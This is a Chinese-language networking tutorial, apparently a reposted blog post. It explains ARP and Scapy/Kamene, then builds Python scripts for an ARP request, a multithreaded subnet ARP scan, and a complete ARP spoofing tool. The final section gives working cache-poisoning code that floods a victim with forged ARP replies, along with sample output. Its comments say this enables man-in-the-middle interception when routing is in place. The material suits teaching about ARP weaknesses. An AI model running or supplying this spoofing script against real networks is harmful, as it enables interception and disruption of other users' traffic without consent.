

原文连接:https://www.cnblogs.com/singvis/p/11603890.html
目录
0. ARP介绍

首先，先回忆下TCP/IP模型，从下到上分为：数据链路层、网络层、传输层、应用层，那么ARP到底属于哪一层？有人会说是网络层，但实际是属于数据链路层，只不过还要为网络层提供服务。
ARP的主要用途是IP(32bit)地址到物理MAC(48bit)地址的映射关系。别看表面主机知道了远端IP地址就可以通信，实则先要知道远端的MAC地址(借助ARP)，通过网卡到交换机构建数据链路层通信，再通过上层进行数据交互。
另外，你可能会了解到代理ARP、免费ARP、RARP这些，其中你都能搞明白他们工作原理是怎么样的嘛？
这里咱们简单回顾一下：
- 代理ARP：一般路由器通常充当代理角色，代替远端主机响应本地的
ARP请求； - 免费ARP：一种特殊
ARP请求报文，用于检测IP冲突、硬件地址变更触发免费ARP； - RARP：与
ARP相反，主要用于无盘工作站，请求物理MAC(48bit)地址到IP(32bit)地址的映射；
1. Scapy简述
Scapy是一个Python语言编写的工具，也是一个强大的交付式数据包处理程序，能够伪造或者解码大量的网络协议数据包，能够发送、嗅探、剖析和伪造网络数据包，如端口扫描、路由跟踪、探测、攻击或网络发现等。使用Scapy可以替代hping、arpspoof、arp-sk、arping、p0f等功能，甚至可以代替nmap、tcpdump和tshark的部分功能。此外，Scapy还有很多其他工具没有的特性，如发送无效数据帧、注入修改的802.11数据帧、在WEB上解码加密通道(VOIP)、ARP缓存攻击(VLAN)等。
Scapy的主要功能如下：
- Scanning（扫描）
- Fingerprinting（识别）
- Testing（测试）
- Packet forging（包铸造）
- Attacking（攻击）
- Sniffing（抓包分析）
收发数据包介绍：
- sr()：发送三层数据包，等待接受一个或者多个数据包的响应。
- sr1( )：发送三层数据包，并仅仅只等待接受一个数据包的响应。
- srp()：发送二层数据包，并且等待响应。
- send()：仅仅发送三层数据包，系统会自动处理路由和二层信息。
- sendp()：发送二层数据包。
作为网工，你是不是经常抓包来分析某协议头部结构，现在就可以用Scapy来构造发送数据包啦。
在python3的环境下，现在叫法是 Kamene，之前叫做Scapy。
2. Scapy简单演示
2.1 安装
pip3 install -i https://pypi.douban.com/simple/ kamene #使用豆瓣源进行安装kamene说明：强烈建议在linux环境下安装及测试(我用的是ubuntu 16)。
2.2 构造包演示
2.2.1 进入kamene交互界面
#安装好后，直接通过kamene进入，类似python交互式界面
root@ubuntu:~# kamene
WARNING: No route found for IPv6 destination :: (no default route?). This affects only IPv6
INFO: Please, report issues to https://github.com/phaethon/kamene
WARNING: IPython not available. Using standard Python shell instead.
Welcome to kamene (3.0.0)
>>> 2.2.2 查看以太网头部
>>> Ether()
<Ether |>
>>> _.show() #'_' 下划线表示上一条命令执行的结果，通过show()展示结果
###[ Ethernet ]###
WARNING: Mac address to reach destination not found. Using broadcast.
dst= ff:ff:ff:ff:ff:ff
src= 00:00:00:00:00:00
type= 0x90002.2.3 查看 ICMP 头部
>>> ICMP()
<ICMP |>
>>> _.show()
###[ ICMP ]###
type= echo-request
code= 0
chksum= None
id= 0x0
seq= 0x02.2.4 查看 IP 头部
>>> IP()
<IP |>
>>> _.show()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
\options\2.2.5 查看 TCP/UDP 头部
>>> TCP()
<TCP |>
>>> _.show()
###[ TCP ]###
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}
>>> UDP()
<UDP |>
>>> _.show()
###[ UDP ]###
sport= domain
dport= domain
len= None
chksum= None2.2.6 简单构造 ICMP 包
#通过 '/' 可叠加多个协议层(左底层到由上层)，如Ether()/IP()/UDP()/DNS()
>>> p = sr1(IP(src='192.168.8.128' , dst='192.168.8.254')/ICMP()/b'This is a ICMP packet')
Begin emission:
..Finished to send 1 packets.
*
Received 3 packets, got 1 answers, remaining 0 packets
>>> p.show()
###[ IP ]###
version= 4
ihl= 5
tos= 0x0
len= 49
id= 1909
flags=
frag= 0
ttl= 128
proto= icmp
chksum= 0xa088
src= 192.168.8.254
dst= 192.168.8.128
\options\
###[ ICMP ]###
type= echo-reply #收到一个replay包
code= 0
chksum= 0x55ad
id= 0x0
seq= 0x0
###[ Raw ]###
load= 'This is a ICMP packet'2.2.7 简单 构造 ARP 包
先看下ARP包的格式：
>>> ARP()
<ARP |>
>>> _.show()
###[ ARP ]###
hwtype= 0x1
ptype= 0x800 #协议号
hwlen= 6
plen= 4
op= who-has #op=1表示Request，op=2表示Response
hwsrc= 00:0c:29:5d:2f:55 #源MAC地址
psrc= 192.168.8.128 #源IP地址
hwdst= 00:00:00:00:00:00 #初始目的为广播地址
pdst= 0.0.0.0 #缺省为空简单构造 ARP 请求包：
>>> p = sr1(ARP(psrc='192.168.8.128',pdst='192.168.8.254'))
Begin emission:
.*Finished to send 1 packets.
Received 2 packets, got 1 answers, remaining 0 packets
>>> p.show()
###[ ARP ]###
hwtype= 0x1
ptype= 0x800
hwlen= 6
plen= 4
op= is-at
hwsrc= 00:50:56:e7:d0:87
psrc= 192.168.8.254
hwdst= 00:0c:29:5d:2f:55 #返回的是arp响应包，获取到目的映射的MAC地址
pdst= 192.168.8.128
###[ Padding ]###
load= '\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'接下来，咱们玩点复杂的。。。
3. 构造 ARP 请求
#!/usr/bin/env python3
#-*- coding:UTF-8 -*-
#欢迎关注微信公众号：点滴技术
#这里有靠谱、有价值的、免费分享、成长的，专属于网络攻城狮的。
import logging
logging.getLogger("kamene.runtime").setLevel(logging.ERROR) # 清除报错
from kamene.all import *
from Tools.Get_address import get_ip_address # 获取本机IP地址
from Tools.Get_address import get_mac_address # 获取本机MAC地址
from Tools.Scapy_iface import scapy_iface # 获取scapy iface的名字
def arp_request(dst_addr, ifname):
# 获取本机IP地址
local_ip = get_ip_address(ifname)
# 获取本机MAC地址
local_mac = get_mac_address(ifname)
try:
# 发送ARP请求并等待响应
#op=1表示请求，op=2表示响应
#当op=1,hwsrc=表示本地mac，hwdst表示广播(首包)，psrc表示本地IP，pdst表示目的IP
result_raw = sr1(ARP(op=1,
hwsrc=local_mac,
hwdst='00:00:00:00:00:00',
psrc=local_ip,
pdst=dst_addr),
iface=scapy_iface(ifname),
timeout=1,
verbose=False)
print(result_raw.show())
#返回目的IP地址，和目的MAC地址，getlayer(ARP)取整个ARP数据包，
return dst_addr, result_raw.getlayer(ARP).fields.get('hwsrc')
except AttributeError:
return dst_addr, None
if __name__ == "__main__":
# Windows Linux均可使用
# arp_result = arp_request('192.168.100.1', "WLAN")
arp_result = arp_request('192.168.8.254', "ens32")
print("IP地址:", arp_result[0], "MAC地址:", arp_result[1])运行结果如下：
IP地址: 192.168.8.254 MAC地址: 00:50:56:e7:d0:874. 构造 ARP 扫描
#!/usr/bin/env python3
#-*- coding:UTF-8 -*-
#欢迎关注微信公众号：点滴技术
#这里有靠谱、有价值的、免费分享、成长的，专属于网络攻城狮的空间
import logging
logging.getLogger("kamene.runtime").setLevel(logging.ERROR)
import ipaddress
from multiprocessing.pool import ThreadPool #多线程
from ARP_Request import arp_request #返回IP 和 MAC
def arp_scan(network,ifname):
#要扫描的网段
net = ipaddress.ip_network(network , strict=False)
#空列表，存放字符串IP地址
ip_list = []
for ip in net:
ip_list.append(str(ip)) #ip格式转为str，放入ip_list
pool = ThreadPool(processes=100) #线程池并发100
result = []
for i in ip_list:
result.append(pool.apply_async(arp_request , args=(i,ifname)))
pool.close()
pool.join()
#存放活跃的IP与MAC的字典
scan_dict = {}
for r in result:
if r.get()[1] is not None:
scan_dict[r.get()[0]] = r.get()[1]
# print(scan_dict)
return scan_dict
if __name__ == '__main__':
net = '192.168.8.0/24'
name = 'ens32'
import time
start_time = time.time()
print("活动IP地址如下：")
for ip , mac in arp_scan(network=net,ifname=name).items():
print("IP地址： {} 是活动的，MAC地址是 {}".format(ip , mac))
end_time = time.time()
print('本次扫描花费时间：%.2f' % (end_time - start_time))运行结果如下：
活动IP地址如下：
IP地址： 192.168.8.1 是活动的，MAC地址是 00:50:56:c0:00:08
IP地址： 192.168.8.254 是活动的，MAC地址是 00:50:56:e7:d0:87
本次扫描花费时间：14.525. 构造 ARP 欺骗
#!/usr/bin/env python3
#-*- coding:UTF-8 -*-
#欢迎关注微信公众号：点滴技术
#这里有靠谱、有价值的、免费分享、成长的，属于网络攻城狮的空间
import logging
logging.getLogger("kamene.runtime").setLevel(logging.ERROR) # 清除报错
from kamene.all import *
from Tools.Get_address import get_ip_address # 导入获取本机IP地址方法
from Tools.Get_address import get_mac_address # 导入获取本机MAC地址方法
from ARP_Request import arp_request # 导入之前创建的ARP请求脚本
from Tools.Scapy_iface import scapy_iface # 获取scapy iface的名字
import time
import signal
def arp_spoof(ip_1,ip_2,ifname='ens35'):
# 申明全局变量
global localip, localmac, dst_1_ip , dst_1_mac, dst_2_ip , dst_2_mac , local_ifname
#赋值到全局变量
#dst_1_ip为被毒化ARP设备的IP地址，dst_ip_2为本机伪装设备的IP地址
#local_ifname为攻击者使用的网口名字
dst_1_ip, dst_2_ip, local_ifname= ip_1, ip_2, ifname
# 获取本机IP和MAC地址，并且赋值到全局变量
localip, localmac= get_ip_address(ifname), get_mac_address(ifname)
# 获取被欺骗ip_1的MAC地址，真实网关ip_2的MAC地址
dst_1_mac, dst_2_mac = arp_request(ip_1,ifname)[1], arp_request(ip_2,ifname)[1]
# 引入信号处理机制，如果出现ctl+c（signal.SIGINT），使用sigint_handler这个方法进行处理
signal.signal(signal.SIGINT, sigint_handler)
while True: # 一直攻击，直到ctl+c出现！！！
# op=2,响应ARP
sendp(Ether(src=localmac, dst=dst_1_mac) / ARP(op=2, hwsrc=localmac, hwdst=dst_1_mac, psrc=dst_2_ip, pdst=dst_1_ip),
iface=scapy_iface(local_ifname),
verbose=False)
print("发送ARP欺骗数据包！欺骗{} , {}的MAC地址已经是我本机{}的MAC地址啦!!!".format(ip_1,ip_2,ifname))
time.sleep(1)
# 定义处理方法
def sigint_handler(signum, frame):
# 申明全局变量
global localip, localmac, dst_1_ip , dst_1_mac, dst_2_ip , dst_2_mac , local_ifname
print("\n执行恢复操作！！！")
# 发送ARP数据包，恢复被毒化设备的ARP缓存
sendp(Ether(src=dst_2_mac, dst=dst_1_mac) / ARP(op=2, hwsrc=dst_2_mac, hwdst=dst_1_mac, psrc=dst_2_ip, pdst=dst_1_ip),
iface=scapy_iface(local_ifname),
verbose=False)
print("已经恢复 {} 的ARP缓存啦".format(dst_1_ip))
# 退出程序，跳出while True
sys.exit()
if __name__ == "__main__":
# 欺骗192.168.1.101,让它认为192.168.1.102的MAC地址为本机攻击者的MAC
#如果攻击者没有路由通信就会中断，如有路由就可以窃取双方通信的信息(所谓中间人)
arp_spoof('192.168.1.101' , '192.168.1.102' , 'ens35')运行结果如下：
发送ARP欺骗数据包！欺骗192.168.1.101 , 192.168.1.102的MAC地址已经是我本机ens35的MAC地址啦!!!
发送ARP欺骗数据包！欺骗192.168.1.101 , 192.168.1.102的MAC地址已经是我本机ens35的MAC地址啦!!!
发送ARP欺骗数据包！欺骗192.168.1.101 , 192.168.1.102的MAC地址已经是我本机ens35的MAC地址啦!!!
发送ARP欺骗数据包！欺骗192.168.1.101 , 192.168.1.102的MAC地址已经是我本机ens35的MAC地址啦!!!
发送ARP欺骗数据包！欺骗192.168.1.101 , 192.168.1.102的MAC地址已经是我本机ens35的MAC地址啦!!!
^C
执行恢复操作！！！
已经恢复 192.168.1.101 的ARP缓存啦ARP高速缓存表被欺骗前后效果图：

备注：持续发送ARP响应包，设备收到最新的就会更新本地ARP缓存表，所以ARP安全性太低了。
附录：
官方学习资源
https://scapy.net/
http://github.com/phaethon/kamene如果喜欢的我的文章，欢迎关注我的公众号：点滴技术，扫码关注，不定期分享